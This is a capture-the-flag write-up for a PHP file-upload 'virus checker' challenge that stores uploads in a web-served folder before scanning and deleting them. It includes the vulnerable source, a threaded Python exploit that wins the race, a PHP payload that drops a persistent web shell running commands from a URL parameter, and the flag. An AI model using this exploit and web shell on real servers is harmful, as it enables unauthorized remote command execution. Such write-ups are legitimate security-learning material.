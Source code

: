 # Web (200 Points) 71-solves

## Challenge Description
Have a suspicious file? Check it for viruses here.
author: rugo|RedRocket

Race condition to RCE
## Challenge Files

This challenge was similar to CSCG 2022 file upload, whereby a race condition is exploited.

```
<?php

if (isset($_FILES["file"])) {
    $size = $_FILES["file"]['size'];

    if ($size > 3000) {
        echo "For such large files, buy premium";
    } else {
        $target_dir = "uploads/";
        $target_file = $target_dir . $_FILES["file"]["name"];

        move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);

        function hasVirus($file_path) {
            # Check for Virus
            $argument = escapeshellarg($file_path);
            exec("clamscan $argument", $output, $retval);

            if ($retval != 0) {
                return true;
            }
            return false;
        }

        if (hasVirus($target_file)) {
            echo "The file contains a virus!";
        } else {
            echo "The file is safe to use!";
        }

        unlink($target_file);
    }

}

if (isset($_GET["source"])) {
    highlight_file(__FILE__);
}
?>

```

## Solution
We can upload files to the application for it to inspect the file contents and check for viruses. However, the application stores the file to the server first, then only checks the file and deletes it subsequently. Therefore, we have a race condition where we can try to request the file before it is deleted from the server.

exploit.py
```
import threading
import requests


url = "http://viruscheckor.rumble.host/index.php"
file_location = "http://viruscheckor.rumble.host/uploads/virus.php"

def access_file():
    while(True):
        r = requests.get(file_location)
        if (r.ok and "Not Found" not in r.text):
                print(f'Success: {r.text}')
                return
        
def race(ses):
    t = threading.Thread(target=access_file)
    t.start()
    while(t.is_alive()):
        with open ('./virus.php','rb') as file:
            r = ses.post(url,files={"file":file})
        t.join()
        
if (__name__ == "__main__"):
    ses = requests.Session()
    race(ses)
```
Virus.php contains code to upload a persistent webshell to the server.

virus.php
```
<?php
$data = "<?php system (\$_GET['cmd']);?>";
file_put_contents("race_exploit.php",$data);
?>
```

Here I write a file called "race_exploit.php" as a simple web shell to execute commands

Going to the uploads directory /uploads/race_exploit.php presents us with the webshell

![image1](./images/1.png)

The steps are:
1. Upload php file to write persistent webshell to server
2. Race the server and include the file before it is deleted
3. Go to uploads directory and access web shell to execute commands

## Flag
Flag is located in /var/www/html/flag.php

```
CSR{MIGHTSTILLBEMALLICIOUS}
```

